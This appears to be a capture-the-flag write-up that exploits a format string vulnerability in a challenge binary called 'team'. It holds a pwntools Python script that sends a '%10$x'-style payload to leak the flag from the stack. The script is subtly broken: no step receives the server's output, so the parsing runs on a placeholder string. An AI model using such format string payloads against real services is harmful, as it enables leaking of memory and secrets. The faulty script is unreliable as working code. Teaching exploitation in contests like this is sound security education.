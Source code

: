 # team 600pts 

##Overview
To start, disassembling the program reveals a format string
vulnerability when it prints the team name.
After much trial and error and not doing anything right at all,
I noticed that using many %x.%x.%x.%x.....%x would essentially 
dump the stack for you. Because I had a poor flag locally,
(a flag.txt file is needed in the same directory to do this chal)
that wasn't extrememly noticable, it took me a long time to realize
the flag was being dumped to the terminal. It was just in little/big 
endian (don't remember which is which) and hex. So copy the values 
from the output, reverse each byte, convert to ascii and you've got 
the flag. 

By observing where your flag was located in the outputted data, you 
could the flag began 10 words from the begginning of the dump. 
Therefore, using %10$x would cause the 10th value on the stack to be 
printed. We now can hardcode exactly where the flag will be. The flag 
is printed in hex, there are 256 bits in the flag (i.e. 32 bytes or 64 
hex characters) so we will need to use 16 %x's. 

##Code
Import pwn tools, set the context appropriately and connect to 
the remote service. If this is being run on a linux computer, 
it will work locally if in the same directory as the team
executable. Pwn tools will run the process and attach it to 
a port, simulating the contest environment quite nicely.
```python
from pwn import *
context(arch='i386', os='linux')

# Challenge originally hosted at hack.bckdr.in 8004
if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./team'])
    r = remote('localhost', l.lport)
```
Next we construct a teamname that will display the 16 words off the stack
that contain the flag. We send this as the teamname and can then 
send anything as the flag.
```python
teamname = "%10$x.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22$x.%23$x.%24$x.%25$x"

flag = "Doesn't matter"

r.recvuntil("Enter teamname:")

print "[*] Sending teamname"
r.send(teamname + "\n")

r.recvuntil("Enter flag:")
print "[*] Sending flag"
r.send(flag + "\n")
```
We then receive the data containing the flag and 
strip away the unnecessary parts.
```python
f = flag.replace(" ", "").replace(":", "").split(".")
```
The values are backwards on the stack due to
endianness. We can use pwntools' p32() here 
to get the flag values. 
We could optionally 
hex decode the string and then invert it like
so: ```flag += str(i.decode("hex")[::-1])```
but I like pwntools so we'll use that.
```python
flag = ""
for i in f:
	flag += str(p32(int(i, 16)))

print "[*] Flag: " + flag
# RyanAiden
```

